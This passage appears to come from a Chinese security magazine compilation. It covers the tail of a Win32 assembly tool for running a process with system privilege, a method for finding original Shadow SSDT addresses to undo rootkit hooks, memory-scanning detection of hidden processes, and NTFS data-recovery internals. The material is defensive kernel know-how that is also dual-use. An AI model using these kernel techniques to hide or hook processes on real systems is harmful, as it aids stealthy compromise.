invoke _argv,1,[ebp+8h],128
jmp _return
_usage:
```

```asm
lea eax,[ebp-128h]
; 传值
invoke _argv,0,eax,128
invoke StdOut,CTXT("Run process as system privilege.",0dh,0ah,)
; 大功告成
lea eax,[ebp-128h]
invoke wsprintf,offset g_out,CTXT("Usage:%s [File]"),eax
lea eax,[ebp-128h]
invoke StdOut,offset g_out
invoke ExitProcess,NULL
; 退出
_return:
add esp,128h
; 保持堆栈平衡
ret 4h
_getopt endp
```

最近刚接触到 Win32 汇编的内容，文中可能会有不少错误，还望大家多多指教。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程、SSDT、win32k.sys

### 一种获取 Shadow SSDT 服务函数原始地址的思路



文/图 Ieminis

随着 Hook SSDT 的泛滥，Hook Shadow SSDT 估计也已经是 Windows 驱动入门都要学的了。既然有 Hook，对应的就要有恢复。要做恢复，第 1 个要做的就是需要知道 SSDT 或者 Shadow SSDT 服务函数原始地址。而要获取服务函数原始地址，就需要读取 SSDT 或者 Shadow SSDT 对应的内核文件 ntoskrnl.exe（这个根据自己机器而定）以及 win32k.sys。而对于 SSDT 服务函数原始地址的获取，系统导出了 KeServiceDescriptorTable，可以通过在 ntoskrnl.exe 文件的导出表中搜索 KiServiceTable，获取 SSDT 服务函数原始地址的数组。

但是 Shadow SSDT 表的服务函数信息，无论是在已加载系统中获取当前 Shadow SSDT 表，还是在文件中获取其原始服务函数地址，都不是很容易的事。由于自己需要时，就用 IDA 逆向 win32k.sys 写了个获取 Shadow SSDT 服务函数原始地址的程序，最近在网上搜索了一下，发现现在已知的方法有下面几种。

- 1. 通过 win32k.sys 中的 .data 来获取。Windows XP SP2 是直接在 win32k.sys 的 .data 中读取，地址数组以 0x00000101 结束；Windows XP SP1 是在 .data 的偏移 0x6540 处，地址数组以 0x00000101 结束；Windows 2003 SP2 直接在 win32k.sys 的 .data 中读取，地址数组以 0x00000101 结束；Windows 2003 SP1 是在 .data 的偏移 0x9524 处，地址数组以 0x00000101 结束；Windows Vista SP1 也是在 win32k.sys 的 .data 中直接读取，地址数组以 0x00000101 结束，但是获取的地址必须重定位，将从文件获取的地址设为 StaticNativeAdd，win32k.sys 默认加载基地址为 StatisImageBase，win32k.sys 实际的加载基地址为 ImageBase，则获取的 Shadow SSDT 的原始地址 NativeAdd = StaticNativeAdd - StatisImageBase + ImageBase，地址数组以 0x00000101 结束。
- 2. 硬编码，直接通过文件偏移硬编码原始地址表的位置。
- 3. 搜索 KeAddSystemServiceTable。这个在网上找不到更加具体的代码，也不知道具体是怎么实现的，也许和我实现的这个类似。还有一个是搜索 KTHREAD.ServiceTable，我不知道这个是获取当前 Shadow SSDT 的服务函数地址，还是获取原始地址的。自我感觉是获取 Shadow SSDT 当前服务函数地址，并不是原始地址。

下面具体讲讲我自己实现的获取原始函数地址的方法。如有雷同，敬请谅解，这确实是我自己实现的，之前并没有在网上查找。

根据《深入理解 Windows 操作系统》一文所讲述的，给系统服务表添加服务是通过 KeAddSystemServiceTable 这个函数实现的。我的思路是在 win32k.sys 中找到这个函数，看它是怎么添加入 Shadow SSDT 表中的服务的。

首先把从 Windows XP 系列到 2003 以及 Vista 系统的 win32k.sys 文件搜集到一起，使用 IDA 将其反汇编，通过 IDA 的交叉引用功能，找到调用 KeAddSystemServiceTable 函数的地方。以下是将 Windows XP SP3 的 win32k.sys 反汇编后查找到的：

```asm
INIT:BF9B0212 57                push    edi
INIT:BF9B0213 68 90 AB 99 BF    push    offset unk_BF99AB90
INIT:BF9B0218 FF 35 8C AB 99 BF push    dword_BF99AB8C
INIT:BF9B021E 89 35 88 50 9A BF mov     dword_BF9A5088, esi
INIT:BF9B0224 56                push    esi
INIT:BF9B0225 68 80 9F 99 BF    push    offset off_BF999E80
INIT:BF9B022A FF 15 58 D0 98 BF call    ds:KeAddSystemServiceTable
```

反汇编后，在给 KeAddSystemServiceTable 传入的参数中，发现双击 offset off_BF999E80，IDA 会跳转到如下的数据表中：

```asm
.data:BF999E80 3C 61 93 BF    off_BF999E80 dd offset sub_BF93613C
.data:BF999E84 C6 7D 94 BF    dd offset sub_BF947DC6
.data:BF999E88 7D C9 88 BF    dd offset sub_BF88C97D
.data:BF999E8C 8E F9 93 BF    dd offset sub_BF93F98E
.data:BF999E90 DD 93 94 BF    dd offset sub_BF9493DD
.data:BF999E94 D0 63 93 BF    dd offset sub_BF9363D0
.data:BF999E98 75 64 93 BF    dd offset sub_BF936475
.data:BF999E9C 4D B4 83 BF    dd offset sub_BF83B44D
.data:BF999EA0 04 8D 94 BF    dd offset sub_BF948D04
.data:BF999EA4 D5 4B 93 BF    dd offset sub_BF934BD5
.data:BF999EA8 FC 92 94 BF    dd offset sub_BF9492FC
.data:BF999EAC 6D F4 90 BF    dd offset sub_BF90F46D
.data:BF999EB0 9D 21 90 BF    dd offset sub_BF90219D
.data:BF999EB4 5F 9F 80 BF    dd offset sub_BF809F5F
.data:BF999EB8 CE 91 94 BF    dd offset sub_BF9491CE
.data:BF999EBC CA A9 94 BF    dd offset sub_BF94A9CA
.data:BF999EC0 9A 0A 90 BF    dd offset sub_BF900A9A
......
```

通过在 Rootkit Unhook LE 3.7 中查看 Shadow SSDT，如图 1 所示，发现在 IDA 中看到的数据表中的数据和在 RKU 中显示的服务函数原始地址是一样的。由此可以看出，给 KeAddSystemServiceTable 传入的这个参数是 Shadow SSDT 的服务函数地址数组。再看传入的其他参数，会发现 “push dword_BF99AB8C” 中的 dword_BF99AB8C 变量，传入的是 Shadow SSDT 服务函数地址的个数，也就是原始服务函数地址的个数。



到这我们就有思路了：只要定位到 KeAddSystemServiceTable 的这两个参数的地址，然后将它转换成文件偏移，就可以直接获取 Shadow SSDT 服务函数的个数和原始地址表了。现在已经有了获取原始地址的思路了，剩下的就是通过特征码搜索 KeAddSystemServiceTable 的两个参数的地址了。如果直接从文件头通过特征码匹配来搜索，这将是个效率很低的方法。

再仔细观察刚才的汇编代码，会发现这些代码基本都在 win32k.sys 的入口附近，相对入口点偏移向后，而唯独 Vista Ultimate 的偏移是相对入口点向前的。这样，在入口点往后（Vista Ultimate 除外）的 PAGE_SIZE（0x2000）范围内搜索，都是可以找到 KeAddSystemServiceTable 的，实现代码如下：

```c
// 获取win32k.sys的入口信息
pData=GetPEInfo(Path,&Info);
if(!pData)
{
    ...
}
return NULL;
}

pBuf=pData;
if(CurrentOSVer==VER_VISTAULT)
{
    Info.EntryPoint-=0x6EF;
}

pData+=RVAToFileOffset(pBuf,Info.EntryPoint);
pData-=0xdd;
```

GetPEInfo 通过解析 PE 结构获取 win32k.sys 入口点。通过 IDA 对不同版本 Windows 的 win32k.sys 数据对比，提出如下两组特征码。

- 1. **Windows XP SP1/SP2/SP3、Vista SP1**
  - 从 start 函数开始搜索，可以找到如下特征码。

```c
0xff 0x15 xx xx xx xx
0x39 xx xx xx xx xx
0x75 xx
0x57
0x68 xx xx xx xx
0xff 0x35 (xx xx xx xx) SHADOW SSDT个数
0x89 0x35 xx xx xx xx
0x56
0x68 (xx xx xx xx) SHADOW SSDT函数原始地址
0xff 0x15 xx xx xx xx
0xE8
```

- 2. **Windows 2003 SP1/SP2、Vista Ultimate**

```c
0x68 xx xx xx xx
0xff 0x35 (xx xx xx xx) SHADOW SSDT个数
0xff 0x35 xx xx xx xx
0x68 (xx xx xx xx) SHADOW SSDT函数原始地址
0xff 0x15 xx xx xx xx
```

通过这两组特征码搜索到这两个变量的地址后，直接将这两组地址转换成相对文件的偏移，之后读取就可以了。以下是特征匹配部分的代码：

```c
DWORD NumOfOffset=0;      // SHADOW SSDT原始服务函数地址个数的虚拟偏移地址
DWORD AddressOfOffset=0;  // SHADOW SSDT原始服务函数地址表头的虚拟偏移地址
DWORD iCount=0;
if(CurrentOSVer==VER_WXPSP1 || CurrentOSVer==VER_WXPSP2 || CurrentOSVer==VER_WXPSP3 || ...)
{
    ...
}
CurrentOSVer==VER_VISTASP1)
{
    // 特征码搜索原始服务函数个数变量和函数地址头变量的地址
    for(iCount=0;iCount<PAGE_SIZE;iCount++)
    {
        if(*(PWORD)(pData+iCount)==0x35ff &&
           *(PWORD)(pData+iCount+6)==0x3589 &&
           *(PWORD)(pData+iCount+12)==0x6856 &&
           *(PWORD)(pData+iCount+18)==0x15ff)
        {
            NumOfOffset=*(PDWORD)(pData+iCount+2);
            AddressOfOffset=*(PDWORD)(pData+iCount+14);
            break;
        }
    }
}
else if(CurrentOSVer==VER_W2K3SP2 ||
        CurrentOSVer==VER_W2K3SP1 ||
        CurrentOSVer==VER_VISTAULT)
{
    // 特征码搜索原始服务函数个数变量和函数地址头变量的地址
    for(iCount=0;iCount<PAGE_SIZE;iCount++)
    {
        if(*(PWORD)(pData+iCount)==0x35ff &&
           *(PWORD)(pData+iCount+6)==0x35ff &&
           *(PWORD)(pData+iCount+17)==0x15ff)
        {
            NumOfOffset=*(PDWORD)(pData+iCount+2);
            AddressOfOffset=*(PDWORD)(pData+iCount+13);
            break;
        }
    }
}
else
{
    if(pBuf)
        FreeHeapMem(pBuf);
    return NULL;
}
```

以下部分是将获取到的两个变量地址转换成文件偏移地址，然后获取服务函数个数和服务函数原始地址的代码：

```c
if((0!=NumOfOffset)&&(0!=AddressOfOffset))
{
    // 将获取的表示 SHADOW SSDT 表服务函数个数和
    // SHADOW SSDT 表服务函数原始地址表的变量的地址转换成文件地址
    PDWORD pAdd=(PDWORD)(pBuf+RVAToFileOffset(pBuf,AddressOfOffset-Info.ImageBase));
    PDWORD pNum=(PDWORD)(pBuf+RVAToFileOffset(...));
}
```

```c
(pBuf,NumOfOffset-Info.ImageBase));
DWORD Num=*pNum;
DWORD dwCount=0;
pNativeAdd=(PDWORD)AllocHeapMem(Num*sizeof(DWORD));
for(dwCount=0;dwCount<Num;dwCount++)
{
    pNativeAdd[dwCount]=pAdd[dwCount];
}
if(NumOfFun)
{
    *NumOfFun=Num;
}
}
__except(EXCEPTION_INVALID_HANDLE)
{
    if(pNativeAdd)
    {
        FreeHeapMem(pNativeAdd);
        pNativeAdd=NULL;
    }
}
```

在 Vista 系统上，Shadow SSDT 的加载基地址不是其 PE 结构中指定的基地址，需要把获取的原始服务函数重定位，以下是重定位服务函数地址的代码：

```c
if(CurrentOSVer==VER_VISTAULT ||
   CurrentOSVer==VER_VISTASP1)
{
    DWORD W32kBase=FindModuleLoadBase("win32k.sys",0);
    for(DWORD iCount=0;iCount<*NumOfFun;iCount++)
    {
        pNativeAdd[iCount]-=Info.ImageBase;
        pNativeAdd[iCount]+=W32kBase;
    }
}
```

至此，我们就成功获取了 Shadow SSDT 服务函数的原始地址及其个数。这是我的整个分析过程和思路，其中有些地方使用了网上现成的代码，在此向这些作者致谢。

在完成本文的时候，从网上下载的 Windows 7 正好下载安装完成。安装之后发现，用于搜索的特征码和 Vista Ultimate 是一样的，也就是说增加个版本号，这个程序也可以在 Windows 7 下获取 Shadow SSDT 服务函数的原始地址。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程、内存搜索、进程检测

### 一种基于内存搜索的进程检测方法

文/图 junfduan

本文介绍一种基于内存搜索的进程检测方法，包括基本原理介绍和设计实现。

#### 搜索内存检测进程的原理

##### 1. 问题的提出——进程检测

Rootkit 等后门为了在系统中长期驻留，需要隐藏相应的信息，这些信息包括自启动项、文件、进程、模块、端口、注册表、服务等。其中，以进程隐藏特别突出（因为用户经常会打开任务管理器看看是否有异常的进程在自己的机器上运行）。

隐藏进程的方法有多种，例如挂钩 NtQuerySystemInformation 函数，从内核 EPROCESS 结构的 ActiveProcessLinks 等双向链表上摘除自身，从 csrss.exe 进程的句柄表上摘除自身，从 PspCidTable 上摘除自身，等等。如果 Rootkit 用到了其中某种方法，那么基于此的检测将会失败。比如，hxdef100（黑客守护者）挂钩 NtQuerySystemInformation 实现隐藏，如果想通过 NtQuerySystemInformation 函数来获取全部进程信息就会失败。再比如，FU_rootkit 通过从内核 EPROCESS 结构的 ActiveProcessLinks 双向链表上摘除自身实现隐藏，如果想通过遍历该链表来检测隐藏的 FU_rootkit 就会失败。现在问题来了，如果上面隐藏进程的方法都用到了，该怎么检测呢？

### 2. 解决的思路之一——搜索内存

在 Windows 系统中，进程由内存空间、进程打开的各种对象和进程中运行的线程等组成。线程仅仅是一个执行上下文，系统调度的最基本单位，但每一个线程的运行都必须依附（attach）一个进程。

在 Windbg 中可以使用 dt 命令来查看线程 ETHREAD 的结构，命令格式为“dt _ETHREAD 线程地址”。例如：

```text
kd> dt _ETHREAD 8238F3B8
nt!_ETHREAD
 +0x000 Tcb              : _KTHREAD
 +0x1c0 CreateTime       : _LARGE_INTEGER
 0xe4d5cd536b7i830
 ......
 +0x21c DeviceToVerify   : (null)
 +0x220 ThreadsProcess   : 0x8234f718 _EPROCESS
 +0x224 StartAddress     : 0x7c810867
 +0x228 Win32StartAddress: 0x010027f2
 ......
 +0x254 ForwardClusterOnly      : 0 ''
 +0x255 DisablePageFaultClustering: 0 ''
```

在线程控制块的偏移 0x220 处是一个 ThreadsProcess 指针，指向一个 EPROCESS 结构，即一个进程 EPROCESS。

在 Windbg 中可以使用“!process”命令来查看进程的线程摘要，命令格式为“!process 进程地址 3”。我们来看看上面显示的地址 0x8234f718 对应进程的线程摘要信息。

```text
kd> !process 0x8234f718 3
PROCESS 8234f718 SessionId: 0 Cid: 05bc  Peb: 7ffdf000  ParentCid: 0424
DirBase: 07a00280    ObjectTable: e1975848
HandleCount: 38.
Image: wscntfy.exe
......
BasePriority        8
CommitCharge        164
THREAD 8238f3b8  Cid 05bc.05c4  Teb: 7ffdf000
Win32Thread: e1d88da8  WAIT: (UserRequest) UserMode Non-Alertable
  8258cef8  SynchronizationEvent
  8259b7b8  SynchronizationEvent
```

从命令输出可以看出该进程名为 **wscntfy.exe**，有一个线程地址为 **8238f3b8**，这个地址就是最开始的那个线程控制块的地址。

现在思路有了，既然每一个线程都要依附一个进程，每一个线程控制块中有一个指向该进程的进程控制块的指针，那么，我们就可以通过搜索系统中所有线程得到所有的进程。

#### 搜索内存检测进程的具体实现

##### 1. 问题

问题1：如何判断一个内存块是线程的 ETHREAD 结构？

Windows 系统中存在两个系统描述符表，一个是 `KeServiceDescriptorTable`，一个是 `KeServiceDescriptorTableShadow`。两个系统描述符表中的 `KeServiceDescriptorTable` 描述系统基本服务，我们称之为主表；`KeServiceDescriptorTableShadow` 除了描述系统基本服务之外，还描述 GUI 和 USER 服务，我们称之为副表。每个线程都有自己指向系统服务描述符表的指针，这个指针指向两个系统描述符表中的任意一个。线程 ETHREAD 偏移为 0 的位置是一个 KTHREAD 结构，这个结构的偏移 `0x0e0` 处就是这样一个指向系统描述符表的 32 位指针 `ServiceTable`。

```text
kd> dt _KTHREAD
nt!_KTHREAD
 +0x000 Header            : _DISPATCHER_HEADER
 +0x010 MutantListHead    : _LIST_ENTRY
 ......
 +0x0df InitialNode       : UChar
 +0x0e0 ServiceTable      : Ptr32 Void
 +0x0e4 Queue             : Ptr32 _KQUEUE
 ......
 +0x1bb DisableBoost      : Uchar
```

假定我们读取地址 Addr 的信息，如果 Addr 偏移 `0x0e0` 处的内容是系统服务调度表的地址，就可以初步判定这个 Addr 很有可能就是一个线程 ETHREAD 的入口。

问题2：如何获得系统服务调度表的地址？

任何一个系统的服务描述符表在系统运行时是不会改变的。而且从前面的分析可以看出，这个表的位置线程是知道的，这样线程在运行时才能成功地找到自己要调用的服务。

可是不同版本的 Windows 系统的描述符表地址并不一样，同一版本的各个系统上描述符表的地址也不一样，因此最好能够有一种动态获得系统描述符表地址的方法。

基于前面对主表和副表的分析，找到一个需要系统基本服务和 GUI/USER 服务的进程，获取其所有线程中的 `ServiceTable` 内容，就可以得到系统描述符表的地址。而通过这种方法得到的地址是在程序运行过程中动态获取的，可以满足我们的需求。

我们通过遍历 EPROCESS 中偏移 `0x088` 处的 `ActiveProcessLinks` 来找到拟采用的进程，比如 `explorer.exe`（偏移 `0x174` 处为 `ImageFileName`，映像名称）。

```text
kd> dt _EPROCESS 81405560
nt!_EPROCESS
 +0x000 Pcb               : _KPROCESS
 ......
 +0x084 UniqueProcessId   : 0x000005fc
 +0x088 ActiveProcessLinks: _LIST_ENTRY [ 0x815c0c98 - 0x815a6b00 ]
 ......
 +0x170 Session           : 0xf9ebc000
 +0x174 ImageFileName     : [16] "explorer.exe"
 +0x184 JobLinks          : _LIST_ENTRY [...]
 ......
 +0x18c LockedPagesList   : (null)
 +0x190 ThreadListHead    : _LIST_ENTRY [ 0x81405424 - 0x813adadc ]
 +0x198 SecurityPort      : (null)
 ......
 +0x255 WorkingSetAcquiredUnsafe : 0 ''
 +0x258 Cookie            : 0x70f74bdb
```

在找到这个进程之后，我们接着要遍历它所有的线程，以获取我们需要的系统服务描述符表的地址。EPROCESS 结构偏移 `0x190` 处的 ThreadListHead 是一个类型为 `_LIST_ENTRY` 的双向链表，通过它可以得到线程链表的头。

```text
kd> dt _ETHREAD
nt!_ETHREAD
 +0x000 Tcb              : _KTHREAD
 ......
 +0x220 ThreadsProcess   : Ptr32 _EPROCESS
 +0x224 StartAddress     : Ptr32 Void
 +0x228 Win32StartAddress: Ptr32 Void
 +0x22c LpcReceiveMessageId : Uint4B
 +0x22c ThreadListEntry   : _LIST_ENTRY
 +0x234 RundownProtect    : _EX_RUNDOWN_REF
 ......
 +0x254 ForwardClusterOnly : UChar
 +0x255 DisablePageFaultClustering : UChar
```

而线程 ETHREAD 结构的偏移 0x22c 处也是这样一个双向链表，通过它可以遍历所有线程。问题好像已经解决了，地址“EPROCESS+0x190-0x22c+0x0e0”中的内容即是 ServiceTable，即系统描述符表的地址，其中 0x190 是 ThreadListHead 相对 EPROCESS 的偏移，0x22c 是 ThreadListEntry 相对 ETHREAD 的偏移，0x0e0 是 ServiceTable 相对 ETHREAD 的偏移。

图1给出了系统中 EPROCESS 和 ETHREAD 结构的关系，我们可以从这个图中看出上面所描述的过程（注：ServiceTable 在 Tcb 结构中，为了使结构清晰明了，图1没有给出）。

问题3：如何获取系统中所有进程的 EPROCESS 结构？

图1

EPROCESS 结构？通过图1我们可以看出，在内存中搜索线程之后，通过 EPROCESS 与 ETHREAD 的关系，可以得到线程依附的进程。“ETHREAD + ThreadsProcess”即是 EPROCESS 的地址，其中“ETHREAD”为线程 ETHREAD 结构的地址，“ThreadsProcess”为 ThreadsProcess 指针相对 ETHREAD 的偏移量。获得 EPROCESS 地址，便对应上了进程。一个线程会依附一个进程，而一个进程则可以对应多个线程。用这个方法会得到很多重复的进程地址，我们只需要把重复部分删除即可。

##### 2. 实现

获取系统服务描述符表的部分代码如下，通过遍历，能够获得两个描述符表的地址。

```c
currlist=currlist->Flink;
ssdt=*(PULONG)((ULONG)currlist-ThreadListEntry+ServiceTable);
if(s[0]==0)
    s[0]=ssdt;
else
{
    if((s[1]==0)&&((s[0]!=ssdt)))
        s[1]=ssdt;
}
if((s[0]!=0)&&(s[1]!=0))
    break;
count++;
```

采用链表的形式记录所有进程 EPROCESS 结构地址的部分代码如下，需要在内核中申请非分页的地址空间。

```c
{
    if((r=(process *)ExAllocatePool(NonPagedPool,sizeof(process)))==NULL)
    {
        return;
    }
    p->next=r;
    r->addr=EPROCaddr;
    r->next=NULL;
    p=r;
}
```

#### 具体细节的补充说明

我所给出的基本结构和原理是 Windows NT 架构下所有系统都采用的，因而在其他系统下这个方法依然可以实现进程检测，但由于在 Windows 2000/XP/2003 下相关数据结构有一定的差别，所以在其他系统下需要对相应系统数据偏移量等值进行修改。我所给出的驱动程序在 Windows XP SP2 下由 Windows DDK 编译，可以使用 rootkit.com 提供的 InstDrv 进行加载，使用 Dbgview 查看运行结果，在 Windows XP SP2 下测试通过，可以成功检测 FU_rootkit、hxdef100（黑客守护者）和 FUTo_enhanced 隐藏的进程。目前给出的方法具有一定的不准确性。比如内核空间地址范围，线程、进程的判定，系统服务描述符表的获取等都具有一定的局限性，这些都会影响检测的准确性。虽然目前的测试结果都是准确的，但是一种从方法上能够确保准确的思路是以后努力的方向。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程、NTFS文件系统、数据恢复

## 基于NTFS文件系统的数据恢复程序设计

文/图 小小杉

系统与数据恢复技术已经开始在一些高校的信息安全专业中开设，相信这将使得更多的学生不再畏惧数据恢复，因为笔者每次和同学谈论数据恢复技术程序设计与实现，大多数人都觉得很高深，其实这主要是因为没有真正地理解文件系统的内部结构原理，而只是在上操作系统课程时，略微学习了一些文件系统的组织结构、功能等，因而就无从谈起数据恢复程序设计了。

其实笔者在2009年第1期《黑客防线》杂志上深入地分析过基于NTFS的数据恢复技术，但当初笔者是第1次在黑防上发表文章，认为读者应该都具备一定的数据恢复技术，所以没有从文件系统内部结构开始分析，而是直接与读者交流了笔者实现数据恢复程序设计时采用的关键技术，可能很多读者都没有理解清楚。下面笔者从NTFS的内部结构原理开始分析，然后逐步过渡到数据恢复程序设计的实现，希望本文的介绍再加上2009年第1期的《自主开发专业数据恢复软件》一文，能使读者真正地理解NTFS下的数据恢复技术，并开发出自己的专业恢复软件。

本文分3个小节阐述：其一，深入分析NTFS文件系统的内部结构原理，包括主控文件表MFT、NTFS下的各重要属性及其索引记录与目录结构等；其二，阐述文件删除后可恢复性原理，通过实例对比分析文件删除前后MFT各重要属性的变化；最后重点分析NTFS下已删除文件的数据恢复程序设计，提出一种已删除文件目录树重构的算法，及其已删除文件的数据恢复算法，并澄清主控文件表（MFT）80属性中数据运行的存储原理。（注：数据恢复关键代码已在2009年第1期给出，本文的意义主要是深入阐述恢复技术核心原理，这是必须的，否则初学者无法看懂01期的代码，希望想深入了解恢复核心技术的读者认真阅读）。

## NTFS文件系统内部结构原理

NTFS文件系统的一大特点是所有的数据，包括系统信息，如引导程序、记录整个卷的分配状态位图等，都是以文件的形式存在的。MFT是NTFS卷结构的核心，系统通过MFT来确定文件在磁盘上的位置以及文件的所有属性。MFT是一个与文件相对应的文件属性数据库，它记录了除文件数据信息外的所有属性（包括文件的MAC时间、文件名、文件的父目录MFT参考号等），甚至当文件内容很短时，其内容直接在MFT的数据属性中存放，不再额外占用簇空间。这一点就有别于FAT系统了，在FAT结构中，即使文件很小，也必须占用1个簇的空间，这其实是很浪费磁盘空间的。读者可以自行使用WinHex软件测试（WinHex软件是数据恢复程序设计开发的必备工具）。

## 1. MFT结构分析

每个文件都与MFT表一一对应，而文件删除、修改等操作都在MFT表中得到了体现，故我们首先必须分析出MFT结构。同样还是采用WinHex软件进行分析。MFT由两个部分组成，即MFT头（也称文件记录头）和属性列表。MFT头的长度和偏移的数据含义是固定不变的，而属性列表则是可变的，其不同的属性数据有着不同的含义，后面将对其进行具体的分析。下面先分析MFT头结构中主要的偏移位置，即笔者认为在数据恢复程序设计中必须考虑的偏移位置。

- 1. 文件记录头前4个字节的值总长为 `0x454C4946H`，标识其为MFT记录表项。  
- 2. 偏移 `14H` 处，记录了MFT头的总长度，即MFT中第1个属性流的开始。程序设计中可采用条件语句 `IF(strcmp(MFTFlag,"FILE") != 0 || *((LPWORD)(lpBuffer + 0x14)) == 0)` 来判断当前读取的文件是否为MFT记录表项，若非，则直接忽略此文件（其中，MFTFlag表示MFT头最前面4字节值，lpBuffer表示MFT的起始偏移）。  
- 3. 偏移 `16H` 处的值为标记字节，`00H` 表示已删除文件，`01H` 表示正常文件，`02H` 表示已删除的目录，`03H` 则表示正常的目录，故偏移16H处的值可用于判断此MFT表项是否为非目录文件且是否已删除。  
- 4. 偏移 `18H` 处的4字节，记录了MFT表项（即记录头和属性）的总长度，通过获取此值就可判断MFT表项的结束偏移位置，其中MFT的结束偏移处的标记为 `FFFFFFFFH`，但在NTFS卷的一些MFT中有时会出现不止一个 `FFFFFFFFH` 的情况。  

属性列表也被细分成了两个逻辑组成部分，即属性头部和属性数据，其中属性头部标识了属性的类型、属性数据的相对偏移及其长度。因MFT大小只有1KB，故可能导致有些属性并不能完全存放在单个的MFT表项中，NTFS采用了簇运行列表结构（runs list），将不能完全存放下来的属性值采用了多个簇分开存放，这些簇在物理上可以不连续，故NTFS引入了LCN、VCN来定位簇号，此类型的属性在NTFS卷中称为非常驻属性，反之则为常驻属性，其中10属性、30属性、90属性总为常驻属性，而用于反映数据存储位置的80属性则常为非常驻属性。下面深入地分析一下与数据恢复相关的属性结构。

## 2. NTFS下重要的属性结构

- 1. **10属性分析**  
  10类型属性即 `$STANDARD_INFORMATION` 属性，为文件的标准信息。包括一些基本的文件属性，如只读、系统、存档、隐藏及MAC等。其中，相对属性头的偏移 `14H~15H` 两字节值为10属性值的开始偏移，偏移 `04H~08H` 4字节值为10属性的总长度。获取与文件相关的MAC时间。MAC日期与时间相对属性值的偏移分别为 `00H`、`08H`、`18H` 处，且均占8个字节。MFT表项中的MAC采用64位即8个字节来表现，存储格式为 Coordinated Universal Time (UTC)，其精确度为100ns，且是从1601年1月1日00:00:00开始为起点。在程序设计中，采用结构体 FILETIME 即可存放64bit的MAC时间，然后再调用Microsoft提供的上层API函数 FileTimeToSystemTime，将UTC时间转换为本地时间即可重现文件的MAC日期及时间。  
- 2. **30属性分析**  
  30类型属性即 `$FILE_NAME` 属性，用于存储文件名，总为常驻属性，其相对属性头的偏移……代表的含义和10属性一样，这里不再赘述。属性值中包括父目录的MFT参考号、文件名、获取父目录的MFT参考号。MFT参考号即MFT相对$MFT表的序号，即给定一个MFT参考号N，即可求出此文件MFT表项在MFT区域的物理位置。N对应的MFT表项的物理扇区数 = N*2 + BPB_MFTStartClus*8。其中BPB_MFTStartClus值表示NTFS指定分区的MFT起始簇，可以从BPB结构体中获得。上式表明，已知父目录的MFT参考号即可映射到其父目录的MFT表项位置，从而可以获取父目录MFT表项的相关属性信息，故在程序设计中可以依次向上搜索出整个目录树。

30属性值从偏移00H处开始，共8个字节，即为父目录的MFT参考号。在程序设计中，其实只需要读取前4个字节内容，因为4个字节最大值即为FFFFFFFFH，折算后该逻辑分区大概为4TB大小，这在目前是不可能存在的，所以不需要考虑后4个字节。

获取文件或目录名。NTFS卷中文件名采用Unicode编码，每个字符占两个字节。在30属性中，文件名的首个字符从属性值偏移42H开始，字符总数记录在偏移40H处，故借助这两处的偏移值，即可准确地读取文件或目录名。但有些MFT表项中会出现两个30属性，前者用于兼容8.3格式文件。假设文件名为recovery.txt的文件，在首个30属性中，其文件名则为RECOVE~1.txt，共12字节；后者用于记录文件或目录的长文件名，如图1所示。

